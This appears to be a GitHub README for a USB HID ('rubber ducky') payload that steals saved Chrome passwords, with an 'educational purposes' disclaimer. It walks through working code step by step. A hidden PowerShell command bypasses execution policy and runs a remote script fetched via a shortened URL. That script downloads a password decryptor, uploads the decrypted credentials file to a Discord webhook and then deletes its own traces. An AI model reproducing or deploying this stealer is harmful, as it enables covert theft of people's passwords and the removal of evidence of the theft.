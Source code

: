 THIS SCRIPT IS ONLY INTENDED FOR EDUCATIONAL PURPOSES
(decrypt script made by ohyicong)

# What it does

This payload downloads and executes a powershell script that downloads a python chrome password decryptor, and then sends the decrypted passwords over discord using webhooks.

# Dependencies:
- Windows
- Python

# How it Works:

(This code is very unoptimized, but i havent bothered fixing it)

## The rubber ducky script
When the grabber.dd runs it opens a run dialoge and enters this script.

```powershell
powershell -W h -NonI -NoP -Ep bypass -c "$dc = '<your discord webhook here>'; irm https://shorturl.at/bMQ15 | iex
```
This line opens a hidden windows with ``-W h`` a non interactive windows with ``-NonI`` no user profiles with ``NoP`` and bypasses the anti script execution policy using ``-Ep bypass``
Then it sets the ``$dc`` variable to your webhook.
And last but not least it downloads the starter.ps1 script and executes it. The download link is shortened to fit inside the run dialoge. (I want to host my own site in the future where i can have my own directly short links)

## The powershell script

The powershell script is used as sort of a base of operations, it downlaods the python password decryptor and sends the file over discord. Heres how it works:

### Extracting the passwords:

To extract the passwords saved in chrome we use a python script made by ohyicong, if you are interested in how it works you can read his [medium article](https://ohyicong.medium.com/how-to-hack-chrome-password-with-python-1bedc167be3d)

First we tell powershell where python is located on the system so we can use it to execute the script:
```powershell
$filePath = "$env:LocalAppData\Programs\Python\Python311\python.exe"
```
Then we install the needed python libraries, if the user already have the libraries pip will automaticly cancel the installation and the script will proceed wither way.
```powershell
py -m pip install pycryptodomex pywin32
```
Then we download the python script the same way the rubber ducky script downloaded the ```starter.ps1``` scrip:
```powershell
Invoke-WebRequest -Uri https://github.com/simen64/Pico-HID-Scripts/blob/main/chrome-password-stealer/decrypt_chrome_password.py -OutFile $Env:USERPROFILE\Documents\stealer.py
```
Now we run the python script using this line. The ```&``` tells powershell to execute a command. The ```$env``` variable is where python is located and the ```$Env``` variable is where the python script is saved from the previous step
```powershell
& $env:LocalAppData\Programs\Python\Python311\python.exe $Env:USERPROFILE\Documents\stealer.py
```

### Sending the passwords over Discord

This part of the code is what takes the decrypted passwords file and sends it to you over discord.

First we define the user thats logged into the computer, this will be used to acces folders like ```C:\Users\User\Documents\```
```powershell
$user = $env:USERNAME
```
Then we use the now defined &user variable to define where the file ```decrypted_password.csv``` file is stored, this file contains the passwords that the python script previosly extracted.
```powershell
$file = "C:\Users\$user\Documents\decrypted_password.csv"
```
This variable plains and simple tells discord what message to deliver the file with
```powershell
$message = "Extracted passwords:"
```
This line of code is used to generate a unique identifier for the message each time the script is ran
```powershell
$boundary = [System.Guid]::NewGuid().ToString()
```
Here we read the ```decrypted_password.csv``` file from the previously defined ```$file``` variable and saves it into a variable called ```$fileContent```
```powershell
$fileContent = [System.IO.File]::ReadAllBytes($file)
```
This code takes all of the now gathered information and puts it into an array called ```$bodyLines``` that is joined to one string in a variable called ```body```
```powershell
$bodyLines = @(
    "--$boundary",
    "Content-Disposition: form-data; name=`"content`"",
    "",
    $message,
    "--$boundary",
    "Content-Disposition: form-data; name=`"file`"; filename=`"file.txt`"",
    "Content-Type: application/octet-stream",
    "",
    [System.Text.Encoding]::Default.GetString($fileContent),
    "--$boundary--"
)

$body = $bodyLines -join "`r`n"
```
After that is gathered we have to define the http headers for the webhook, we set the header to ```multipart/form-data``` so it know that we are sending a file. Then we give the request or unique identifier with the variable ```$boundary``` that we generated earlier.
```powershell
$headers = @{
    "Content-Type" = "multipart/form-data; boundary=$boundary"
}
```
Last but not least we invoke a web request to our webhook with all of our information. This includes setting the request to POST, including the headers and the body.
```powershell
Invoke-RestMethod -Uri $webhookUrl -Method Post -Headers $headers -Body $body
```
And after the script is done it self destructs and deletes all the files downloaded, ```$MyInvocation.MyCommand.Source``` is a built in powershell variable that defines the script that its being called from.
```powershell
Remove-Item stealer.py -Force
Remove-item decrypted_password.csv -Force
Remove-Item -Path $MyInvocation.MyCommand.Source
```
